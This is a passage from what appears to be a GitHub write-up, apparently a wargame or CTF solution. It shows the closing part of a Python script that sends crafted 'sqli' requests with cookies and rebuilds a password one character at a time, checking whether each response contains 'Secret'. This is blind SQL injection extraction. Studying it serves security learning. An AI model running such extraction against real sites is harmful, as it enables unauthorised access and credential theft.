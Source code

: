 ```python
            r = requests.get(sqli, headers = headers, cookies = cookies)
            if (r.text).find('Secret') != -1:
                passwd += str(key[k])
                print(str(key[k]), end = '', flush = True)
                break
        j += 1

if __name__ == '__main__':
    idlength = findIDLength(i)
    findID(idlength, 1)
    print('\n------------------')
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188059587-781bb471-40a8-4dc5-9a6e-4e84a6542257.jpg" width = 360>
</p>